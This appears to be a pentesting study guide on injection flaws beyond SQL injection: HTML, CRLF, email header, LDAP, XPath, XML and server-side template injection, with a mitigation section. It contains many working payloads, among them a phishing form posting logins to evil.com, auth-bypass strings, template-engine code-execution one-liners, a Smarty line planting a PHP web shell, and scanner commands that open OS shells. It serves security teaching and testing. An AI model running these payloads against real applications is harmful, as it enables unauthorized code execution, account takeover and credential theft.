


# Input Validation & Injection Attacks

> **Input validation failures occur when an application trusts user-supplied data without proper checking — enabling attackers to inject malicious content into HTML, headers, emails, LDAP queries, XPath, XML, and server-side templates.**

---

## 🧠 What Is It? (Beginner Explanation)

Every piece of data a user sends can be manipulated. When apps embed that data into different contexts (HTML, HTTP headers, SQL queries, template engines) without validating or escaping it, attackers can break out of the expected context and inject malicious content.

This file covers the **"everything else"** category of injection: CRLF, HTML, email headers, LDAP, XPath, XML, and SSTI — distinct from SQLi, XSS, and command injection (which have their own files).

---

## 🏗️ How It Works (Technical Deep Dive)

### Client-Side vs Server-Side Validation

```
Client-side validation:   JavaScript in the browser
                          Trivially bypassed by intercepting the request in Burp
                          NEVER rely on this for security

Server-side validation:   PHP/Python/Java code on the server
                          The only reliable defense
```

```javascript
// Client-side "validation" - completely useless for security
function validateForm() {
    if (document.getElementById('email').value.includes('@')) {
        return true;  // This just affects the UI
    }
    return false;
}
// Attacker: intercept in Burp, remove the @ check, submit any value
```

### Whitelist vs Blacklist

```
Blacklist: "Reject known bad input"
  - Block: <, >, ', ", %, ;, --
  - Problem: attackers find encodings, alternative chars you didn't list
  - Example: filtered <script>, try <ScRiPt> or <svg/onload=...>

Whitelist (Allowlist): "Only accept known good input"  
  - Allow: a-zA-Z0-9 for usernames
  - Allow: integers only for age field
  - Allow: specific enum values for dropdown
  - MUCH more secure
```

---

## 📊 Diagram



---

## ⚙️ All Injection Points

| Location | Example | What Gets Injected |
|----------|---------|-------------------|
| URL parameters | `?name=VALUE` | HTML, SQL, LDAP, XPath |
| POST body | `username=VALUE` | All types |
| HTTP headers | `User-Agent: VALUE` | CRLF, Log injection |
| Cookie values | `session=VALUE` | All types |
| Path segments | `/users/VALUE/profile` | Path traversal, SQL |
| JSON keys/values | `{"key":"VALUE"}` | SQL, SSTI, NoSQL |
| XML content | `<tag>VALUE</tag>` | XXE, XML injection |
| File names | `filename=VALUE` | Path traversal, command |
| Search queries | `q=VALUE` | SQL, LDAP, XSS |
| Sort/order params | `sort=VALUE` | SQL (ORDER BY injection) |

---

## 🔴 Attack Surface & Exploitation

### HTML Injection

HTML injection = injecting HTML tags without JavaScript execution. Lower severity than XSS but still dangerous.

```html
<!-- Vulnerable: app outputs user input in HTML without encoding -->
Hello, <b>INPUT</b>

<!-- Attacker input: -->
</b><h1>HACKED</h1><b>

<!-- Results in page showing big "HACKED" heading -->

<!-- Form injection - phishing overlay -->
</div><form action="https://evil.com/steal">
  <h2>Your session expired. Please log in:</h2>
  Username: <input name="user">
  Password: <input type="password" name="pass">
  <input type="submit" value="Login">
</form><div>

<!-- Meta refresh redirect -->
<meta http-equiv="refresh" content="0;url=https://evil.com">
```

---

### CRLF Injection & HTTP Response Splitting

CRLF = Carriage Return (`\r` = `%0d`) + Line Feed (`\n` = `%0a`)

HTTP headers are separated by CRLF. Injecting CRLF into a header value splits the HTTP response.

```http
# Vulnerable endpoint:
GET /redirect?url=https://target.com HTTP/1.1

# Server generates:
HTTP/1.1 302 Found
Location: https://target.com
```

```
# Injected input:
/redirect?url=https://target.com%0d%0aSet-Cookie:%20session=evil%0d%0a

# Resulting response:
HTTP/1.1 302 Found
Location: https://target.com
Set-Cookie: session=evil       ← Injected header!
```

#### HTTP Response Splitting (Legacy, modern frameworks mostly patched)

```
# Inject double CRLF to add a complete new response body
?url=https://legit.com%0d%0a%0d%0a<html><body>Injected page</body></html>
```

#### Cookie Injection via CRLF

```
# Inject new cookie
/setlang?lang=en%0d%0aSet-Cookie:%20admin=true
# Response will contain:
Set-Cookie: lang=en
Set-Cookie: admin=true    ← Injected!
```

#### XSS via CRLF

```
# Inject Content-Type header change
/page?x=1%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script>
```

#### Cache Poisoning via CRLF

```
# Inject cache headers to poison CDN cache
/page?x=1%0d%0aX-Cache-Poison:%20true%0d%0aContent-Length:%20100
```

#### CRLF Injection Testing

```bash
# Test with curl
curl -v "https://target.com/redirect?url=https://legit.com%0d%0aSet-Cookie:%20crlftest=1"
# Check response headers for Set-Cookie: crlftest=1

# Burp: send to Repeater, inject %0d%0a in header-reflected parameters
```

---

### Email Header Injection

Contact forms often pass user input directly to mail functions. If CRLF isn't sanitized in email headers, attackers can inject new headers.

```php
// VULNERABLE PHP mail() call
$to = "admin@company.com";
$subject = $_POST['subject'];  // User-controlled!
$message = $_POST['message'];
$from = $_POST['email'];       // User-controlled!

mail($to, $subject, $message, "From: " . $from);
```

#### Email Header Injection Payloads

```
# Inject Cc/Bcc to send to additional recipients
From field input:
attacker@evil.com%0aCc:victim1@example.com,victim2@example.com
attacker@evil.com%0aBcc:spam@example.com

# Subject field injection
Normal subject%0aBcc:spam1@example.com,spam2@example.com

# Inject completely new headers
attacker@evil.com%0aTo:victim@example.com%0aSubject:Phishing%0a%0aContent

# Use %0a (\n) or %0d%0a (\r\n) - depends on OS
# Linux: \n
# Windows: \r\n

# Testing payload - inject yourself in Bcc:
attacker@evil.com%0d%0aBcc:your-monitoring-address@example.com
```

---

### LDAP Injection

LDAP (Lightweight Directory Access Protocol) is used for authentication and directory services (Active Directory, OpenLDAP).

#### LDAP Filter Syntax

```ldap
# Basic LDAP filter
(uid=alice)                         # Find user with uid=alice
(&(uid=alice)(password=secret))     # AND condition
(|(uid=alice)(uid=bob))             # OR condition
(!(uid=alice))                      # NOT condition
(uid=*)                             # Wildcard - all users

# Authentication query example:
(&(uid=USERNAME)(password=PASSWORD))
```

#### LDAP Injection for Auth Bypass

```
# Vulnerable code (Python):
import ldap
base_dn = "dc=company,dc=com"
filter = "(&(uid=" + username + ")(password=" + password + "))"
result = conn.search_s(base_dn, ldap.SCOPE_SUBTREE, filter)

# Injected username:
*)(uid=*))(|(uid=*

# Resulting filter:
(&(uid=*)(uid=*))(|(uid=*)(password=anything))
# The closing )) terminates the AND, OR condition is always true
# Authentication bypassed!

# Even simpler bypass:
username: admin)(|(password=*
# Filter: (&(uid=admin)(|(password=*)(password=anything))
# Password part always true - logs in as admin
```

#### LDAP Wildcard Extraction

```
# Check if username starts with 'a'
username: a*
# Filter: (&(uid=a*)(password=anything))
# If a user starting with 'a' exists → login succeeds/fails differently

# Enumerate users via blind LDAP
a* → true (user exists starting with a)
b* → false
...
ad* → true
adm* → true
admi* → true
admin* → true (found: admin)

# Extract attribute values
# Test each character position:
username: admin)(|(description=a*    → does admin's description start with a?
```

#### LDAP Injection Payloads

```
# Authentication bypass
*
*)(&
*))%00
admin)(&)
admin)(|(password=*)
*)(uid=*
*)(|(uid=*)
)(|(cn=*
%2a%29%28%7c%28cn%3d%2a    (URL encoded)

# Filter escape characters
*  → %2a
(  → %28
)  → %29
\  → %5c
NUL→ %00
```

---

### XPath Injection

XPath queries XML documents. If app uses XPath with user input for authentication:

```xml
<!-- XML file (users.xml) -->
<users>
  <user>
    <username>admin</username>
    <password>secret123</password>
    <role>admin</role>
  </user>
</users>
```

```php
// Vulnerable PHP XPath authentication
$query = "//user[username/text()='$username' and password/text()='$password']";
$result = $xml->xpath($query);
if (count($result) > 0) {
    // authenticated
}
```

#### XPath Authentication Bypass

```
# Classic OR injection (same as SQLi)
Username: ' or '1'='1
Password: anything

# Query becomes:
//user[username/text()='' or '1'='1' and password/text()='anything']
# '1'='1' is always true → selects all users → authenticated as first user

# More variations
Username: admin
Password: ' or '1'='1

Username: ' or 1=1 or 'x'='
Username: '] | //user | //*['
```

#### Blind XPath Injection

```
# Extract data character by character
# Does the first char of first username have code > 90?
' or substring(//user[1]/username/text(),1,1) > 'Z' or '1'='2

# Full blind extraction
' or substring(//user[1]/username/text(),1,1)='a' or '1'='2
' or substring(//user[1]/username/text(),2,1)='d' or '1'='2
# etc.

# Get count of users
' or count(//user) > 0 or '1'='2
' or count(//user) = 3 or '1'='2
```

---

### XML Injection

Distinct from XXE — injecting content into XML data structure itself.

```php
// App builds XML from user input
$xml = "<user><name>" . $name . "</name><role>guest</role></user>";
```

#### XML Injection Payloads

```xml
<!-- Close the name tag, inject role tag -->
John</name><role>admin</role><name>John

<!-- Resulting XML: -->
<user>
  <name>John</name>
  <role>admin</role>   ← Injected! (may override or duplicate role)
  <name>John</name>
  <role>guest</role>
</user>

<!-- Attribute injection -->
<!-- If: <user name="INPUT" role="guest"> -->
<!-- Input: " role="admin -->
<!-- Result: <user name="" role="admin" role="guest"> (first wins in some parsers) -->

<!-- Comment injection -->
<!-- If app includes input in XML comment: -->
<!-- USER: INPUT -->
<!-- Injection: --> <evil>payload</evil> <!--
<!-- Result: --> <evil>payload</evil> <!-- --> -->
```

---

### Server-Side Template Injection (SSTI)

Template engines render dynamic content by evaluating expressions. If user input is embedded directly in a template string, it gets evaluated.

```python
# VULNERABLE Flask/Jinja2
from flask import Flask, request, render_template_string
app = Flask(__name__)

@app.route('/hello')
def hello():
    name = request.args.get('name', 'world')
    template = f"<h1>Hello {name}!</h1>"       # user input IN template string
    return render_template_string(template)     # DANGEROUS - evaluates name as Jinja2!
```

#### SSTI Detection Payloads

```
{{7*7}}          → 49  (Jinja2, Twig)
${7*7}           → 49  (Freemarker, some others)
<%= 7*7 %>       → 49  (ERB - Ruby)
#{7*7}           → 49  (Pebble, Thymeleaf)
*{7*7}           → 49  (Thymeleaf)
{{7*'7'}}        → 7777777  (Jinja2 - string * int = repeat)
                 → 49       (Twig - numeric)
${class.getResource('')}  (Freemarker)
${"freemarker.template.utility.Execute"?new()("id")}   (Freemarker RCE)
```

#### SSTI Identification Flowchart



#### Jinja2 SSTI to RCE

```python
# Detection
{{7*7}}                    # → 49

# Dump all classes to find useful ones
{{''.__class__.__mro__[2].__subclasses__()}}
{{[].__class__.__base__.__subclasses__()}}

# Find subprocess.Popen or os.system
# Search through subclasses for the right index:
{{''.__class__.__mro__[2].__subclasses__()[X].__init__.__globals__['sys'].modules['os'].popen('id').read()}}

# Shorter path via config object (Flask):
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
{{config.items()}}                    # Dump config (may contain SECRET_KEY)

# Via request object (Flask):
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

# Find Popen:

  
    {{ x('id', shell=True, stdout=-1).communicate() }}
  


# Complete RCE one-liner
{{''.__class__.__mro__[2].__subclasses__()[396]('id',shell=True,stdout=-1).communicate()[0].strip()}}
# Note: index 396 varies - must enumerate

# Cycler object (Jinja2)
{{cycler.__init__.__globals__.os.popen('id').read()}}

# Joiner object
{{joiner.__init__.__globals__.os.popen('id').read()}}

# Namespace (Jinja2 2.10+)
{{namespace.__init__.__globals__.os.popen('id').read()}}
```

#### Twig SSTI to RCE

```twig
{{7*7}}                    # 49
{{dump(app)}}              # Dump app object
{{app.request.server.all|join(',')}}   # Server vars

# RCE via filter
{{['id']|filter('system')}}
{{['id','']|sort('system')}}
{{'id'|system}}

# Via exec
{{_self.env.setCache("ftp://attacker.com:2121")}}
{{_self.env.loadTemplate("backdoor")}}
```

#### Freemarker SSTI to RCE

```freemarker
${7*7}                     # 49
${"freemarker.template.utility.Execute"?new()("id")}
${product.getClass().forName("java.lang.Runtime").getMethod("exec","".class).invoke(product.getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"id")}
```

#### Smarty SSTI to RCE

```smarty
{$smarty.version}                    # Version disclosure
{php}echo `id`;{/php}               # PHP block (if allowed)
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

#### SSTI Template Engine Reference Table

| Engine | Language | Detection | RCE Payload |
|--------|----------|-----------|-------------|
| Jinja2 | Python | `{{7*7}}` → 49 | `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}` |
| Twig | PHP | `{{7*7}}` → 49 | `{{['id']|filter('system')}}` |
| Freemarker | Java | `${7*7}` → 49 | `${"freemarker.template.utility.Execute"?new()("id")}` |
| Velocity | Java | `#set($x = 7*7)${x}` → 49 | `#set($str=$class.inspect("java.lang.Runtime").type)` |
| Smarty | PHP | `{$smarty.version}` | `{php}echo shell_exec('id');{/php}` |
| Pebble | Java | `{{7*7}}` → 49 | `` |
| Mako | Python | `${7*7}` → 49 | `${__import__('os').popen('id').read()}` |
| ERB | Ruby | `<%= 7*7 %>` → 49 | `<%= system('id') %>` |
| Handlebars | JS | `{{#with ...}}` | Prototype pollution path |

---

## 🛠️ Tools & Commands

### SSTImap (SSTI Scanner)

```bash
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt

# Basic scan
python3 sstimap.py -u "https://target.com/?name=test"

# POST data
python3 sstimap.py -u "https://target.com/login" --data "name=test&submit=1"

# Execute command
python3 sstimap.py -u "https://target.com/?name=test" --os-cmd "id"

# Shell
python3 sstimap.py -u "https://target.com/?name=test" --os-shell
```

### tplmap

```bash
git clone https://github.com/epinna/tplmap
pip3 install -r requirements.txt

python3 tplmap.py -u "http://target.com/page?name=test"
python3 tplmap.py -u "http://target.com/page?name=test" --os-shell
```

### CRLF Injection Testing

```bash
# Manual test
curl -v "https://target.com/redirect?url=https://legit.com%0d%0aHeader:%20injected"

# Check response headers
curl -D - "https://target.com/?name=test%0d%0aX-Test:%20injected" -o /dev/null

# Nuclei
nuclei -u https://target.com -t ~/nuclei-templates/vulnerabilities/generic/crlf-injection.yaml
```

---

## 🔍 Systematic Injection Testing Methodology

```
Step 1: Map all input points
  - Spider/crawl the application
  - Intercept all requests with Burp
  - Note: query params, body params, headers, cookies, path segments

Step 2: For each input point, determine context
  - Where does the input appear in the response?
  - Is it in HTML? Headers? Emails? Used in backend query?

Step 3: Apply context-appropriate probe
  - HTML: <b>test123</b> → does it render bold?
  - Headers: test%0d%0aX-Test:injected → does header appear?
  - Template: {{7*7}} → does 49 appear?
  - LDAP: *)(uid=*))(|(uid=* → does auth bypass work?
  - XPath: ' or '1'='1 → auth bypass?

Step 4: Confirm and exploit
  - If probe works, escalate to actual exploit
  - Try multiple engine syntaxes for SSTI

Step 5: Document everything
  - Request/response pairs
  - Impact assessment
```

---

## 🛡️ Mitigation

### Output Encoding

```python
# Python - HTML encoding (prevents HTML/XSS injection)
import html
safe = html.escape(user_input)  # < → &lt;, > → &gt;, & → &amp;

# LDAP encoding
def ldap_escape(value):
    special_chars = {'\\': '\\5c', '*': '\\2a', '(': '\\28', ')': '\\29', '\x00': '\\00'}
    for char, escaped in special_chars.items():
        value = value.replace(char, escaped)
    return value

# XPath encoding
def xpath_escape(value):
    # Use parameterized XPath (best option)
    # Or escape quotes
    return value.replace("'", "\\'")
```

### Template Security

```python
# Python - SAFE: Use render_template with separate template FILE (not render_template_string with user input)
from flask import render_template

# SAFE
@app.route('/hello')
def hello():
    name = request.args.get('name', 'world')
    return render_template('hello.html', name=name)
# In hello.html: <h1>Hello {{ name }}</h1>  ← Jinja2 auto-escapes this

# DANGEROUS
return render_template_string(f"<h1>Hello {name}!</h1>")  # User input IN template
```

### Email Header Injection Prevention

```php
// PHP - sanitize email input
function sanitize_email_header($value) {
    // Remove all newlines
    return preg_replace('/[\r\n]/', '', $value);
}

$subject = sanitize_email_header($_POST['subject']);
$from = filter_var($_POST['email'], FILTER_VALIDATE_EMAIL);
if (!$from) {
    die("Invalid email");
}
```

### CRLF Prevention

```python
# Flask - headers set via response object, Flask sanitizes them
from flask import make_response

response = make_response(redirect(target))
# Don't manually concatenate headers with user input

# If you must redirect with user input:
from urllib.parse import urlparse
parsed = urlparse(user_input)
if parsed.scheme in ('http', 'https') and parsed.netloc == 'allowed.com':
    return redirect(user_input)
```

---

## 📋 Real CVE Examples

| CVE | Application | Type | Impact |
|-----|-------------|------|--------|
| CVE-2019-9193 | PostgreSQL | CRLF / command | RCE via COPY TO PROGRAM |
| CVE-2020-28948 | Archive_Tar | Path traversal / injection | Arbitrary file write |
| CVE-2022-22954 | VMware Workspace ONE | SSTI (Freemarker) | RCE |
| CVE-2021-25770 | YouTrack | SSTI (Kotlin/FreeMarker) | RCE |
| CVE-2019-3396 | Confluence | SSTI (Velocity) | RCE |
| CVE-2016-4977 | Spring Security OAuth | SSTI (SpEL) | RCE |
| CVE-2023-26360 | Adobe ColdFusion | Deserialization + injection | RCE |
| CVE-2022-21371 | Oracle WebLogic | CRLF injection | Response splitting |

---

## 📚 References

- [PortSwigger SSTI](https://portswigger.net/web-security/server-side-template-injection)
- [PortSwigger CRLF Injection](https://portswigger.net/web-security/request-smuggling)
- [OWASP LDAP Injection](https://cheatsheetseries.owasp.org/cheatsheets/LDAP_Injection_Prevention_Cheat_Sheet.html)
- [PayloadsAllTheThings SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [PayloadsAllTheThings CRLF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection)
- [HackTricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [SSTImap GitHub](https://github.com/vladko312/SSTImap)
- [tplmap GitHub](https://github.com/epinna/tplmap)
